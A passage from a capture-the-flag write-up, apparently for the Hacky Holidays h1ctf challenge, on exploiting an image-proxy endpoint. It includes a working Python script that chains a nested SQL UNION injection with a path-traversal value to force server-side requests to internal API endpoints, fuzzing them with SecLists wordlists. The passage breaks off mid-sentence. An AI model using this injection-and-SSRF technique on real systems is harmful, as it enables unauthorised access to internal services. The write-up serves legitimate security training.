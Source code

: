 Decoded from base64, the image is:
```js
{"image":"r3c0n_server_4fdk59\/uploads\/my_photo.jpg","auth":"e88273dd34bdd2de7c60dd6450ead88f"}
```

Naturally, the image doesn't load on the page since this photo doesn't exist. We do note that the authorization hash was calculated though!

### 4. SSRF Time
Now we have a way to get authenticated results. We know that the server is assuming our photo is in the `uploads` directory. We can instead have our photo be named `..\/api\/FUZZ` and fuzz for api endpoints. 

I wrote a quick program to try every endpoint in a common API endpoints wordlist:

```python
#!/usr/bin/env python3

import re
import base64
import requests
import sys
  
BASE_URL = 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/'
PAYLOAD = "fakehash'+UNION+SELECT+\"1337'+UNION+SELECT+0,+0,+'..\/api\/FUZZ'--+\",+'my_hash',+'my_album_name'--+"
SECLISTS_DIR = '../../../../SecLists/Discovery/Web-Content/'

def fuzz(wordlist, avoid_code='404', prefix='', suffix=''):
    with open(SECLISTS_DIR + wordlist) as payloads:
        lines = [x.strip() for x in payloads]
        for i, line in enumerate(lines):
            process(PAYLOAD.replace('FUZZ', prefix + line + suffix), avoid_code)

def process(payload, avoid_code):
    album = requests.get(BASE_URL + 'album?hash=' + payload)
    picture_data = re.match(r".*picture\?data=(.*)\"", str(album.content)).groups()[0]

    api_call = requests.get(BASE_URL + 'picture?data=' + picture_data)

    if avoid_code not in str(api_call.content):
        print(str(base64.b64decode(picture_data)))
        print(str(api_call.content))
        return True
    return False
    
sys.argv[1] == 'endpoints' and fuzz('common-api-endpoints-mazen160.txt', avoid_code='404') # finds endpoints "ping" and "user"
sys.argv[1] == 'parameters' and fuzz('burp-parameter-names.txt', avoid_code='400', prefix='user?', suffix='=1') # finds parameters "username" and "password"
```

Most endpoints just 404, but the endpoints `user` and `ping` both return:
